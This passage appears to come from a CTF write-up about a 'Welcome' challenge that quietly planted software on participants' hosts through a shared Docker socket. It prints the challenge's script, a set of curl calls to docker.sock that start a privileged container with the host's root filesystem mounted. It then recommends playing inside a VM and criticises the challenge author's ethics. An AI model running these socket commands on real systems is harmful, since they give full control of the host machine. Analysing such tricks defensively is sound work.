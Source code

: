 ```
curl --silent -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"${REGISTRY_NAME}/${EVIL_IMG_NAME}\", \"HostConfig\":{\"Privileged\":true, \"NetworkMode\":\"host\", \"PidMode\":\"host\", \"IpcMode\":\"host\", \"Binds\":[\"/:/host\"]}}
" -H 'Content-Type: application/json' "http://localhost/containers/create" | jq '.Id' | tr -d '\"' > /id_evil_container

# Start the EVIL container
curl --silent -XPOST --unix-socket /var/run/docker.sock -H 'Content-Type: application/json' "http://localhost/containers/$(cat /id_evil_container)/start" > "/dev/null"

# The part below will block the execution and will not give the flag the to CTFers if an issue happens

# Wait until the EVIL container exits
# Delete the EVIL container
# Delete the EVIL image
```

The script gives a link to [this page](https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/) which explains how to run a Docker container with full root capabilities, using `--privileged`, `--net=host`, `--pid=host`, `--ipc=host` and mounting `/`.

# Solutions to protect your computer

*Added on March 28, 2023*

I used to play CTFs out of a live CD of Kali. I no longer do because my laptop no longer has a CD player :wink:. It's possible to do the same off a USB key, but similarly, USB slots are grower scarce on laptops and you might not have one to spare.

The solution is to play from a VM (e.g. VirtualBox), if your laptop is powerful enough not to make you feel the lag. So far, the few CTF players I know who use a VM do it because their laptop runs Windows and they prefer to play the CTF with Linux. But, if you can't trust the CTF you're in, it's probably a good idea to do it all the time :smile:. In CTFs like Hardwear.io or Ph0wn, you'll probably need access to a USB slot, so that's something you'll need to configure on the VM.

Note: a Docker container wouldn't have worked. I'm not sure about Ubuntu's Multipass, and haven't ever used *nsjail*.


# Conclusion

The *Welcome* challenge was a warm-up challenge intended for CTF beginners.
Solving it and getting the flag was *easy* and with only little interest.
Post mortem investigation of how to plant a malware on participant's host was *far more interesting*.
The author has certainly proved his point, that **sharing Docker sockets is a critical security risk**.
Fortunately, the malicious payload didn't do anything worse than modify the shell prompt and the wallpaper. It could have been worse: thanks for stopping at this point ;P

Yet, I profoundly **disagree with the ethics** in this case.
